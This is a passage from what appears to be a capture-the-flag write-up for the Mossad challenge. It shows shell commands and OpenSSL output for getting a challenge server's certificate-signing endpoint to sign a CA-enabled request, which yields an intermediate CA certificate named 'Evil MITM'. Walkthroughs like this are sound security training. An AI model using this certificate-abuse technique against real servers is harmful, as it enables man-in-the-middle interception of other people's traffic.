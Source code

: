 ```console
A challenge password []:
An optional company name []:
root@kali:/media/sf_CTFs/mossad/2# openssl req -text -noout -in intermediate_csr.pem | grep CA -B 3
        Attributes:
        Requested Extensions:
            X509v3 Basic Constraints: critical
                CA:TRUE, pathlen:1
```

Now we request the server to sign our CSR:

```console
root@kali:/media/sf_CTFs/mossad/2# curl 'https://dev.missilesys.com/download_cert' -H 'Connection: keep-alive' -H 'Content-Type: application/x-www-form-urlencoded' --data 'username=user&password=pass' --insecure --data-urlencode privatekey@intermediate_key.pem --data-urlencode csr@intermediate_csr.pem --output intermediate.p12
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6108    0  3213  100  2895   3811   3434 --:--:-- --:--:-- --:--:--  7245
root@kali:/media/sf_CTFs/mossad/2#  openssl pkcs12 -in intermediate.p12 -clcerts -nokeys -out intermediate.pem
Enter Import Password:
root@kali:/media/sf_CTFs/mossad/2# openssl x509 -in intermediate.pem -text -noout
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 1 (0x1)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: O = International Weapons Export Inc.
        Validity
            Not Before: May 12 19:42:38 2019 GMT
            Not After : May 11 19:42:38 2020 GMT
        Subject: CN = Evil MITM
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                RSA Public-Key: (2048 bit)
                Modulus:
                    00:cb:87:89:23:0d:e0:e9:dd:e0:09:bb:26:df:86:
                    72:6e:7e:52:b0:f7:1e:98:54:89:00:c8:9f:48:b6:
                    8d:83:c5:76:55:0b:65:9f:b2:72:28:42:c3:ab:a7:
                    68:ef:b1:2b:1c:34:b1:f6:c9:77:6f:a4:1a:7e:8d:
                    21:38:04:88:31:3d:a1:63:bd:22:df:6f:de:d2:ed:
                    57:ad:9b:93:64:03:4e:02:b4:d8:af:f3:d5:bc:a0:
                    50:cd:df:74:37:85:a1:aa:98:cc:a5:4b:d4:cc:88:
                    8a:04:3d:2e:aa:bc:06:6a:a2:52:c0:44:92:37:8f:
                    10:72:28:e7:15:e2:ad:b7:b5:24:b3:ff:fc:29:09:
                    d1:c2:42:96:bf:05:9f:1a:75:3b:3a:65:a9:5b:d2:
                    7c:4a:47:ac:1c:d4:f9:a1:64:83:5a:11:cf:8b:f6:
                    ab:09:80:23:a1:c6:8e:d2:41:39:e1:05:96:28:84:
                    a6:6d:8b:83:11:6f:2b:a9:30:4f:4d:2e:e6:75:59:
                    e2:79:15:f0:db:88:13:24:ce:3c:83:68:b2:54:31:
                    9d:b5:0e:3a:44:5a:b3:64:22:11:ef:98:4f:0d:55:
                    6f:94:b6:a6:fd:f6:54:0d:95:c4:68:f7:ba:49:10:
                    b8:a9:fb:f8:25:51:5e:46:cd:6d:24:4b:64:17:49:
                    06:03
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            X509v3 Basic Constraints:
                CA:TRUE
            X509v3 Subject Key Identifier:
                01:12:D6:0D:F5:04:76:E2:5C:3B:68:7B:37:F3:AB:C4:B4:E6:31:13
    Signature Algorithm: sha256WithRSAEncryption
         7d:2e:1e:c9:df:d0:20:29:a0:5e:11:87:a1:d3:e2:3f:76:c6:
         2d:5d:da:d5:53:51:5c:6b:b1:5c:e9:37:9d:69:ed:43:fe:e1:
```